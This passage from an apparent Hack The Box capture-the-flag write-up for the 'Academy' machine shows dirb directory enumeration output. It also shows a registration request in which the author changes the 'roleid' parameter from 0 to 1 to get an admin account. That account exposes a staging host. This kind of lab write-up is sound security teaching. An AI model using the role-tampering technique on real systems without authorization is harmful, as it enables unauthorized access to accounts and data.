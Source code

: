     :::text
    $ dirb http://academy.htb/

    -----------------
    DIRB v2.22
    By The Dark Raver
    -----------------

    START_TIME: Wed Nov  11 03:24:21 2020
    URL_BASE: http://academy.htb/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

    -----------------

    GENERATED WORDS: 4612

    ---- Scanning URL: http://academy.htb/ ----
    + http://academy.htb/admin.php (CODE:200|SIZE:2633)
    ==> DIRECTORY: http://academy.htb/images/
    + http://academy.htb/index.php (CODE:200|SIZE:2117)
    + http://academy.htb/server-status (CODE:403|SIZE:276)

### admin.php

When taking a closer look at the registration request, we can see that there is
a post parameter `roleid` set to `0`.

    :::text
    POST /register.php HTTP/1.1
    Host: academy.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 44
    Origin: http://academy.htb
    Connection: close
    Referer: http://academy.htb/register.php
    Cookie: PHPSESSID=pf1cigmrl6la8c0o7lte5jubum
    Upgrade-Insecure-Requests: 1

    uid=toto&password=toto&confirm=toto&roleid=0

Using Burp and the proxy module, we change the `roleid` parameter to `1`. Our
new account can now log into the admin part. Which is mostly a *todo* list,
disclosing the staging environment virtual host.

![Academy Launch Planner](/media/2020.xx/academy_02.png)

### Staging

We update our `/etc/hosts` and browse to the staging environment.

http://dev-staging-01.academy.htb/
